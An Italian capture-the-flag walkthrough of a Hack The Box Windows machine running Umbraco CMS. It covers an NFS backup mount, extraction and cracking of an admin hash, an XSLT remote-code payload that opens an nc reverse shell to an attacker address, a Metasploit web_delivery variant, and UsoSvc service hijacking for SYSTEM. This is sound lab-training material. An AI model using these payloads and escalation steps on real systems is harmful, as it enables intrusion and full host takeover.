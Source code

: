 ## Information Gathering

Come qualsiasi CTF comincio con una prima analisi superficiale:

```
nmap -sV -A -T4 10.10.10.180
```
Scopro come servizi attivi, un webserver in ascolto sulla porta 80 ed un mount demon sulla porta 2049, puntante su */site_backups*.

A questo punto navigo un po nel sito web, trovo un form autenticativo per la parte di backoffice. Provo con delle credenziali basilari ma non succede nulla. Vedo se magari sono hardcoded nel BE, quindi monto il disco che è in ascolto in locale:

```
mount -t nfs 10.10.10.180:/site_backups /tmp/remote_htb/
```

Cerco la documentazione di Umbraco e trovo che i collegamenti a DB sono impostati all'interno del file Web.config, e la stringa identificativa è "umbracoDbDMS". Quindi eseguo un grep sul file di config:

```
cat Web.config | grep umbracoDbDMS
```

Trovo la stringa di riferimento e scopro che un file di backup del DB è salvato dentro il file *Umbraco.sdf*. Lo rintraccio all'interno della cartella *App_Data*, faccio un cat, strings ed head. Tramite il comando *head* trovo un po di stringhe interessanti ma confuse. Quindi devio il flusso su un file dump_pwd.txt, quindi scremo e trovo:

```                                                                                                    
admin@htb.local
b8be16afba8c314ad33d812f22a04991b90e2aaa
{"hashAlgorithm":"SHA1"}
smith@htb.local
8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA=
{"hashAlgorithm":"HMACSHA256"}
```

Rompo l'hash di admin (essendo uno sha1 risulta rompibile) con CrackStation (o John):
```
baconandcheese
```
Faccio quindi il login nell'apposito tab:
```
10.10.10.180/umbraco/#/login
```

## Web Exploitation

Studio il CMS sottostante e trovo la versione in running. Per questa versione rintraccio un exploit, il 46153.py. 
Dopo averlo studiato ne modifico il PoC in modo tale da poter eseguire NetCat che ho caricato in precedenza all'interno dell'Admin dashboard (il cui path globale, studiando la documentazione, scopro essere:v C:/inetpub/wwwroot/Media/):

```
'<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "10.10.14.147 4444 –e cmd.exe"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "C:/inetpub/wwwroot/Media/1035/nc64.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> '
```

Avvio nc in ascolto anche sulla mia macchina ed eccomi collegato tramite una reverse shell! 

*Versione 2*

Sfruttando la vulnerabilità sopracitata, si modifica l'xxe mettendo come comando Powershell.exe ed argomento l'output rilasciato da WebDelivery di Metasploit. Quindi, la procedura sarà la seguente:

```
msf5 > use exploit/multi/script/web_delivery
msf5 > set target 2
msf5 > set payload windows/x64/shell/reverse_tcp   <- con meterpreter non funzia!
msf5 > set srvport,host ...
msf5 > run

*Copio lo shellcode dentro al frammento di xxe, lo inoltro al server, quindi mi si aprirà una sessione che metterò in background*

msf5 > use post/multi/manage/shell_to_meterpreter
msf5 > set session X 
msf5 > run

*Attendo la migrazione*

msf5 > sessions -i Y
```

Avrò una sessione con meterpreter! Adesso prelevo lo user flag! 

## Privilege Escalation


Sfruttando "PayloadsAllTheThings" cercando per la CVE rintracciata all'interno della macchina con WinPEAS trovo:

```
C:\Windows\system32> sc.exe stop UsoSvc
PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe qc usosvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: usosvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem

PS C:\Windows\system32> sc.exe start UsoSvc
```

Quindi stampo il flag di root:

```
sc.exe stop UsoSvc
sc.exe config UsoSvc binpath= "type \c C:\Users\Administrator\root.txt"
sc.exe qc usosvc
sc.exe start UsoSvc
```
